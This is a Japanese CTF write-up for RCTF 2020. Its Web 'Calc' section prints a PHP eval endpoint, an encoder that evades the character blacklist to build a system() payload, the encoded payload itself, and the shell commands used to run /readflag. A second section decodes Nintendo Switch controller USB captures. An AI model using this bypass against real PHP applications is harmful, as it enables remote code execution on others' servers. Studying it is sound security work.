


5 月 30 日から 6 月 1 日にかけて開催された [RCTF 2020](https://adworld.xctf.org.cn/match/guide?event=141&hash=3d59c9bb-1bea-4590-82a4-e9fd0d6cab76.event) に、チーム zer0pts として参加しました。最終的にチームで 1303 点を獲得し、順位は 43 点以上得点した 460 チーム中 41 位でした。うち、私は 2 問を解いて 820 点を入れました。

以下、私が解いた問題の write-up です。


## [Web 285] Calc (51 solves)
> nobody knows php better than me, So calc it
> 
> (URL)

与えられた URL にアクセスすると、以下のように簡素なデザインの電卓が表示されました。



HTML を見てみましょう。

```html
<!DOCTYPE html>
<html><head><meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
  <title>Calc</title>
  
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link href="https://cdn.bootcdn.net/ajax/libs/twitter-bootstrap/4.4.1/css/bootstrap.css" rel="stylesheet">
  <script src="https://cdn.bootcdn.net/ajax/libs/jquery/3.5.0/jquery.min.js"></script>
  <script src="https://cdn.bootcdn.net/ajax/libs/twitter-bootstrap/4.4.1/js/bootstrap.min.js"></script>
</head>
<body>
︙
<script>
    $('#calc').submit(function(){
        $.ajax({
            url:"calc.php?num="+encodeURIComponent($("#content").val()),
            type:'GET',
            success:function(data){
                $("#result").html(`<div class="alert alert-success">
            <strong>Answer:</strong>${data}
            </div>`);
            },
            error:function(){
                alert("Calculation failed");
            }
        })
        return false;
    })
</script>

</body></html>
```

`Calc it` というボタンを押すと `/calc.php?num=(入力した式)` に HTTP リクエストが飛ぶようです。

GET パラメータを一切つけずに `/calc.php` にアクセスするとソースコードが表示されました。

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
    $str = $_GET['num'];
    $blacklist = ['[a-z]', '[\x7f-\xff]', '\s',"'", '"', '`', '\[', '\]','\$', '_', '\\\\','\^', ','];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/im', $str)) {
            die("what are you want to do?");
        }
    }
    @eval('echo '.$str.';');
}
?>
```

`a-z` `\x7f-\xff` `\s` `'` `"` `` ` `` `[` `]` `$` `_` `\` `^` `,` が含まれていない場合にのみ、GET パラメータで与えた PHP コードを実行してくれるようです。

まともなコードを実行させるのは不可能に思えますが、PHP ですからなんとかできるでしょう。今回は以下の PHP の仕様が使えそうです。

- 未定義の定数は、その定数名の文字列として扱われる (`@var_dump(POYO) // => string(4) "POYO"`)
- 文字列結合用の演算子 (`.`) を使うと、数値を文字列化できる (`(0).(0) === "00"`)
- 文字列を関数のように呼び出した場合、その名前をもつ関数を呼び出したものとして扱われる (`('strto' . 'upper')('abc') === 'ABC'`)
- 文字列同士でビット演算ができる (`('A' ^ ' ') === 'a'`)
- 波括弧も配列などの要素へのアクセスに使うことができる (`['A', 'B', 'C']{1} === 'B'`)

使うことができる文字種は `0123456789!#%&()*+-./:;<=>?@{|}~` のみですが、文字列の結合演算子 (`.`)、ビット演算用の演算子 (`~` `|` `&`)、そして数字と有用なものが揃っています。

数字は `((7).(0)){0}` のように文字列の結合演算子と波括弧を使えば文字列化できますし、`-` は `((-1).(0)){0}` のように負数を使えば、`.` は `((0.1).(0)){1}` のように小数を使えば、そして `E` は `((10**19).(0)){3}` のように指数表記を使えば作り出すことができます。

こうして作り出した文字列同士に AND や OR などのビット演算をさせれば、さらに幅広い種類の文字列を作り出すことができます。最終的には `('system')('ls -la /')` に相当するコードを作り出すこともできるはずです。

様々な文字列を作り出す方法を探索し、得られた結果を使って与えた文字列をエンコードしてくれるプログラムを書きましょう。

```php
<?php
// utils
function add(&$table, $k, $v) {
  if (array_key_exists($k, $table) && strlen($v) >= strlen($table[$k])) {
    return;
  }

  $table[$k] = $v;
}

function add_inv(&$table) {
  $keys = array_keys($table);

  foreach ($keys as $c) {
    add($table, ord(~chr($c)), "((~{$table[$c]}).(0))" . '{0}');
  }
}

function go(&$table) {
  $keys = array_keys($table);

  foreach ($keys as $ck) {
    foreach ($keys as $dk) {
      $cv = $table[$ck];
      $dv = $table[$dk];

      add($table, ord(chr($ck) | chr($dk)), "(({$cv})|({$dv}))");
      add($table, ord(chr($ck) & chr($dk)), "(({$cv})&({$dv}))");
      add($table, ord(chr($ck) ^ chr($dk)), "(({$cv})&(~{$dv}))|((~{$cv})&({$dv}))");
    }
  }

  add_inv($table);
}

function dump_table($table) {
  $keys = array_keys($table);
  sort($keys);

  $res = '';

  foreach ($keys as $k) {
    if (0x20 <= $k && $k < 0x7f) {
      $res .= chr($k);
    }
  }

  echo $res . "\n";
}

function encode($table, $s) {
  $res = '';

  for ($i = 0; $i < strlen($s); $i++) {
    $res .= '(' . $table[ord($s[$i])] . ').';
  }

  return substr($res, 0, -1);
}

// init
$table = [];

// 0-9
for ($c = 0x30; $c <= 0x39; $c++) {
  $d = chr($c);
  $s = "(({$d}).(0))" . '{0}';
  $table[$c] = $s;
}

$table[ord('-')] = '((~1).(0)){0}';
$table[ord('.')] = '((0.1).(0)){1}';
$table[ord('E')] = '((10**19).(0)){3}';

add_inv($table);

// make table
go($table);
go($table);

// yay
$payload = '(' . encode($table, 'system') . ')(' . encode($table, 'ls -la /') . ')';
$len = strlen($payload);
echo "length: {$len}\n$payload\n";
```

```
$ php encode.php
length: 844
((((((2).(0)){0})|(((((10**19).(0)){3})&(((~((4).(0)){0}).(0)){0}))))).(((((8).(0)){0})|(((((10**19).(0)){3})&(((~((4).(0)){0}).(0)){0}))))).(((((2).(0)){0})|(((((10**19).(0)){3})&(((~((4).(0)){0}).(0)){0}))))).(((((0).(0)){0})|(((((10**19).(0)){3})&(((~((1).(0)){0}).(0)){0}))))).(((((10**19).(0)){3})|(((((0).(0)){0})&(((~1).(0)){0}))))).(((((~1).(0)){0})|(((10**19).(0)){3}))))((((((((0).(0)){0})|(((~((1).(0)){0}).(0)){0})))&(((((~1).(0)){0})|(((10**19).(0)){3}))))).(((((2).(0)){0})|(((((10**19).(0)){3})&(((~((4).(0)){0}).(0)){0}))))).(((((0).(0)){0})&(((~1).(0)){0}))).(((~1).(0)){0}).(((((((0).(0)){0})|(((~((1).(0)){0}).(0)){0})))&(((((~1).(0)){0})|(((10**19).(0)){3}))))).(((((((0).(0)){0})&(((~1).(0)){0})))|(((((10**19).(0)){3})&(((~((4).(0)){0}).(0)){0}))))).(((((0).(0)){0})&(((~1).(0)){0}))).(((((~1).(0)){0})|(((0.1).(0)){1}))))
```

これを `/calc.php` に投げると、以下のような結果が返ってきました。

```
total 112
drwxr-xr-x   1 root root  4096 May 30 11:51 .
drwxr-xr-x   1 root root  4096 May 30 11:51 ..
-rwxr-xr-x   1 root root     0 May 30 04:20 .dockerenv
drwxr-xr-x   1 root root  4096 May 30 12:19 bin
drwxr-xr-x   2 root root  4096 May  2 16:39 boot
drwxr-xr-x   5 root root   340 May 30 04:20 dev
drwxr-xr-x   1 root root  4096 May 30 12:19 etc
-r--------   1 root root    38 May 28 09:29 flag
drwxr-xr-x   2 root root  4096 May  2 16:39 home
drwxr-xr-x   1 root root  4096 May 15 12:49 lib
drwxr-xr-x   2 root root  4096 May 14 14:50 lib64
drwxr-xr-x   2 root root  4096 May 14 14:50 media
drwxr-xr-x   2 root root  4096 May 14 14:50 mnt
drwxr-xr-x   2 root root  4096 May 14 14:50 opt
dr-xr-xr-x 120 root root     0 May 30 04:20 proc
-r-sr-sr-x   1 root root 13144 May 28 09:29 readflag
drwx------   1 root root  4096 May 30 13:31 root
drwxr-xr-x   1 root root  4096 May 30 12:22 run
drwxr-xr-x   1 root root  4096 May 15 12:49 sbin
drwxr-xr-x   2 root root  4096 May 14 14:50 srv
dr-xr-xr-x  13 root root     0 May 28 09:39 sys
drwxrwxrwx   2 root root  4096 May 31 20:55 tmp
drwxr-xr-x   1 root root  4096 May 14 14:50 usr
drwxr-xr-x   1 root root  4096 May 15 12:41 var
drwxr-xr-x   1 root root  4096 May 15 12:41 var
```

`/readflag` を実行すればフラグが降ってきそうです。実行させるコマンドを `ls -la /` から `/readflag` に変えると、以下のような結果が返ってきました。

```
Solve the easy challenge first
(((((-721103)+(-555385))+(-858780))+(951742))+(19))
input your answer: calculate error!
input your answer: calculate error! 
```

標準出力から計算式を得て、標準入力からその答えを入力する必要があるようです。

実行させる OS コマンドを変えるたびにいちいちエンコードさせるのは面倒ですから、生成するペイロードを `$payload = '(' . encode($table, 'system') . ')((' . encode($table, 'file_get_contents') . ')(' . encode($table, 'php://input') . '))';` のように変えて、HTTP リクエストボディとして与えた OS コマンドを実行させるように変えましょう。

`echo "<?php \$h=proc_open(\"/readflag\",[[\"pipe\",\"r\"],[\"pipe\",\"w\"],[\"pipe\",\"w\"]],\$p);fgets(\$p[1]);\$r=fgets(\$p[1]);echo \$r;fwrite(\$p[0],eval(\"return \".\$r.\";\").chr(0xa));\$r=fgets(\$p[1]);echo \$r;echo fgets(\$p[1]);echo fgets(\$p[2]);" > /tmp/poyoyon.php` という OS コマンドを実行させて、まず `/tmp/poyoyon.php` に `/readflag` が出力する計算式を解いてくれる PHP コードを書き込みます。

`php /tmp/poyoyon.php` で実行すると、フラグが得られました。

```
RCTF{NO60dy_kn0w5_PhP_6eTter_th4n_y0u}
```

## [Misc 434] Switch PRO Controller (26 solves)
> bought a Switch PRO Controller!! It’s really cool!
> 
> PS: Please replace ‘-’ to ‘_’ when you submit flag.
> 
> 添付ファイル: capture.pcapng, screenrecord.mp4

`screenrecord.mp4` を適当なプレイヤーで再生してみると、次の画像のようにフラグが入力されている様子が記録されていました。Nintendo Switch の Pro コントローラでソフトウェアキーボードを使って入力していますが、肝心の入力先は編集によって隠されてしまっています。



`capture.pcapng` は USB デバイスとして接続しているコントローラからの入力を記録したファイルのようでした。

どのようなプロトコルで通信が行われているかわからなければ、何が入力されているかわかりません。`Nintendo Switch コントローラ プロトコル` みたいなキーワードでググると、以下に挙げる 2 つの有用な記事が見つかりました。

- [dekuNukem/Nintendo_Switch_Reverse_Engineering: A look at inner workings of Joycon and Nintendo Switch](https://github.com/dekuNukem/Nintendo_Switch_Reverse_Engineering)
- [スマホでNintendo Switchを操作する 〜 USB GadgetでPro Controllerをシミュレート 〜 - 犬アイコンのみっきー](https://mzyy94.com/blog/2020/03/20/nintendo-switch-pro-controller-usb-gadget/)

これらの記事を参考に Wireshark でパケットを眺めていると、カーソルの移動にはジョイスティックを、選択には A ボタンを使っていることがわかりました。

入力をわかりやすくするためにビジュアライズしましょう。[Pygame](https://www.pygame.org/) を使って書きます。

```python
import binascii
import time
import sys
import pygame

W, H = 300, 300
BUTTON_A = 0b1000

with open('cap.txt', 'rb') as f:
  lines = f.readlines()

data = []

for line in lines:
  line = line.strip().split(b'\t')

  if len(line) == 1:
    continue

  t, inp = line
  if not inp.startswith(b'30'):
    continue

  inp = binascii.unhexlify(inp)
  x, y = inp[7:9]
  x = (x & 0xf0) >> 4 | (x & 0xf) << 4

  data.append({
    'time': float(t) + 6,
    'button': inp[3], 
    'x': x,
    'y': y
  })

pygame.init()
screen = pygame.display.set_mode((W, H))
font = pygame.font.SysFont(None, 24)

text = font.render(str(data[0]['time']), True, (255, 255, 255))
screen.blit(text, (0, 0))
pygame.display.update()

i = 0
l = len(data) - 1
running = False
while i < l:
  c, n = data[i], data[i + 1]
  x, y = c['x'], c['y']
  button = c['button']

  x = int((x / 255) * W) - 12
  y = 255 - int((y / 255) * H) + 35

  screen.fill((0, 0, 0))

  text = font.render(str(round(c['time'], 3)), True, (255, 255, 255))
  screen.blit(text, (0, 0))

  if button & BUTTON_A:
    text = font.render(f'A', True, (255, 255, 255))
    screen.blit(text, (0, H - 24))

  pygame.draw.circle(screen, (255, 255, 255), (W // 2, H // 2), 5)
  pygame.draw.line(screen, (0, 255, 0), (W // 2, H // 2), (x, y))
  pygame.draw.circle(screen, (255, 0, 0), (x, y), 5)

  pygame.display.update()

  for event in pygame.event.get():
    if event.type == pygame.KEYDOWN:
      if event.key == pygame.K_SPACE:
        running = not running
      elif event.key == pygame.K_LEFT:
        i = max(0, i - 300)
      elif event.key == pygame.K_RIGHT:
        i = min(l, i + 300)
    elif event.type == pygame.QUIT:
      pygame.quit()
      break

  if running:
    time.sleep(n['time'] - c['time'])
    i += 1
```

これを実行すると次の動画のようなアプリケーションが立ち上がります。

<iframe width="560" height="315" src="https://www.youtube.com/embed/wJ7stlQmDiM" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

動画を同時に再生しながら、A ボタンが押された位置を記録していくとフラグが得られました。

```
RCTF{5witch_1s_4m4z1ng_m8dw65}
```